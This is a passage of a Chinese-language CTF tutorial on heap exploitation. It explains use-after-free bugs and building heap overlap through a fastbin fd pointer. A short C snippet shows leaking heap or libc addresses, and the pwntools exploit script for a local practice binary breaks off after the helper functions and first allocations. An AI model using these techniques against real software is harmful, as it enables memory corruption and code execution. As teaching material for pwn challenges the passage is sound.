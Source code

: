 复制

```c
// 通过UAF读取已释放chunk的内容
printf("%p\n", *A); // 泄露堆地址或libc基址
```

### **总结**

- **存在UAF漏洞时**：程序行为不可预测，可利用堆管理器的机制（如`tcache`、`fastbin`）实现任意地址读写。
- **无UAF漏洞时**：程序行为安全，释放后的chunk不可访问，无法利用。

在pwn题目中，UAF漏洞通常是关键利用点，需要结合堆管理器的特性（如`tcache`、`unsorted bin`）设计利用链。

## 方法一使用uaf漏洞构造heap overlapping

这里可以使用uaf构造heap overlapping 但是我个人觉得这个用法也不是很有必要其主要的原因是因为他的主要作用就是把一个堆块变成一个比较强的uaf的作用，其主要的原因是当你有了uaf后很多的数据也不用通过heap overlapping来获取数据了，但是有的时候uaf也确实不能得到我们想要的数据

因此我们还是要了解一下这个方法

那么我们还是要了解一下用法和写法

在这里我们用fastbin 中的数据为例在fastbin中如果我们可以在uaf漏洞把fastbin的fd指针指向我们自己构造的一个fastbin的头部这样我们就可以把这这个fastbin给申请出来然后他就可以构造出一个堆重叠了

exp

```py
from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(10, 0x80)
add_chunk(0, 0x70)
add_chunk(1, 0x50)
add_chunk(2, 0x70)


```